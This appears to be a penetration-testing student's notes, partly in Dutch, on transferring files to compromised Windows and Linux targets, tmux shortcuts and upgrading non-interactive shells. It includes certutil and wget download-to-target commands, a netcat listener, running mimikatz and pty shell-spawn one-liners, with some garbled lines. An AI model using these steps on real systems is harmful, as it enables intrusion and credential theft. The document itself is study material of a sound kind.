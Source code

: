 ## Transferring Files
 sudo nmap -sV -sT -sC {IP} -p- --open

heart 1
#####  set up webserver with python
Two step approach where you need to host the files you want to transfer on a web server (1) and download the files hosted on the web server to the target system (2). 

**SimpleHTTPServer => python2
http.server => python3** 

- copy file: `cp path/file.exe .` 
- set up http server: 
	- with python2: `python -m SimpleHTTPServer port`
	- with python 3: `python3 -m http.server port`


##### Transfer to windows targets

- exploit vulnerability with searchsploit
- read comments in exploit file 
- start http server in correct location where file is stored: 
- set up netcat listener 
- simple command shell session is established (if it did not work run again )
transfer file to target system in `tmp` directory 
![[Pasted image 20230924135933.png]]
- ./mimikatz.exe is to execute the file

Downloading without python http-server
- in a command shell, download file: `certutil -urlcache -f http://adres_webserver
- _ip/filename_downloading.exe file_savingname.exe`

10.2.29.11 target  util -urlcache -f http://
10.10.11.2

Go to binaries 
![[Pasted image 20230924135232.png]] 

##### Transfer to linux targets 



- **tmux** (multiple terminal sessions in 1)
	- new: control + B + C 
	- *  is waar je nu active in bent 
	- new: control + B + 0 
	- control + pijltjes om te scrollen 
	- to get a list of all commands: `Ctrl+b` `?` 
	- detach from the Tmux session and return to your normal shell by typing: `Ctrl+b` `d
	-  `Ctrl+b` `c` Create a new window (with shell)
	- `Ctrl+b` `w` Choose window from a list
	- `Ctrl+b` `0` Switch to window 0 (by number )
	- `Ctrl+b` `,` Rename the current window
	- `Ctrl+b` `%` Split current pane horizontally into two panes
	- `Ctrl+b` `"` Split current pane vertically into two panes
	- `Ctrl+b` `o` Go to the next pane
	- `Ctrl+b` `;` Toggle between the current and previous pane
	- `Ctrl+b` `x` Close the current pane
	- `q` om te kunnen typen 


/samba/is_known_pipename
- `/bin/bash -i `
- `cat /etc/*release`

transfer file to victim 
- set up python file server in the right path: `python3 -m http.server 80` 
- Download file `wget http://adres_webserver/filename.exe ` 





## Shells 

##### Upgrading non-interactive shells 

Non interactive shell is a shell without a prompt ![[Pasted image 20230920164420.png]]

**How to get interactive shell**

Whenever you gain access to the target system with a non-interactive command shell, it is always recommended to upgrade the shell to avoid any issues with input and output.

The first technique involves spawning a **bash** session, this can be done by running the following command:


Method 1
- list shells installed don system: `cat /etc/sells 
	- use any of the shells and add `-i `
	
Method 2 getting interactive shell with programming languages 
- version of python is installed: `python --version`
	- `python -c 'import pty; pty.spawn("/bin/bash")' `
- perl
	- `perl help `
	- `perl: exec "/bin/bash";
- ruby
	- `ruby: exec "bin/bash"`

**`python -c 'import pty; pty.spawn("/bin/bash")' `**
	1. `python -c`: This part of the command invokes the Python interpreter with the `-c` option, which allows you to run a Python one-liner directly from the command line.
	2. `'import pty;pty.spawn("/bin/bash")'`: This is the Python one-liner that's executed. Let's break it down further:
	    - `import pty`: This imports the `pty` module in Python. The `pty` module provides functions for working with pseudo-terminals.
	    - `pty.spawn("/bin/bash")`: This line uses the `spawn` function from the `pty` module to start an interactive `/bin/bash` shell. It essentially creates a new pseudo-terminal and attaches it to the `/bin/bash` process, effectively turning the current non-interactive shell into an interactive Bash shell.
	    

Method: 3 getting interactive shell 
Get interactive shell through:
- Enter the following command to set the PATH environment variable, which tells the system where to find executable files: `export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin`
- This will display a list of environment variables, including the one you just set. `env` 
- This command specifies the terminal type you'll be using in your shell session. `export TERM=xterm
- This command sets your default shell to Bash. `export SHELL=bash` 
	- or try `chsh -s /bin/bash `
- to view the contents of the current directory with additional details (including file sizes and permissions), use the following command:  `ls -alps`  
